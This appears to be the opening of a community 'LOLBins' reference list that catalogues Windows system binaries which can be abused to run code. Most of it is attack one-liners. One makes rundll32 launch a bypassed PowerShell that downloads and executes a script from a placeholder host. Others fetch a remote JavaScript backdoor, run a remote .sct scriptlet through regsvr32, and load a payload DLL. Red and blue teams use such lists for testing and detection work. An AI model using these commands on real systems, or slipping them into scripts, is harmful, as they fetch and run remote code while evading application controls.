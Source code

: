 # LOLBins - Living Off The Land Binaries
Please contribute and do point out errors or resources I have forgotten.
If you are missing from the acknowledgement, please let me know (I did not forget anyone on purpose).    
    
   
# OS BINARIES
   
## Rundll32.exe

* Functions: Execute code

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();new%20ActiveXObject("WScript.Shell").Run("powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://ip:port/');"

rundll32.exe javascript:"\..\mshtml.dll,RunHTMLApplication ";eval("w=new%20ActiveXObject(\"WScript.Shell\");w.run(\"calc\");window.close()");

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WScript.Shell").run("calc.exe",0,true);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}

rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")

rundll32 shell32.dll,Control_RunDLL payload.dll
```
  
Acknowledgements:
* @subtee
   
   
   
## Regsvr32.exe

```
regsvr32 /s /n /u /i:http://example.com/file.sct scrobj.dll
```
   
Acknowledgements:
* @subtee
   
   
   
## Msbuild.exe

```
msbuild.exe pshell.xml
```

Acknowledgements:
* @subtee

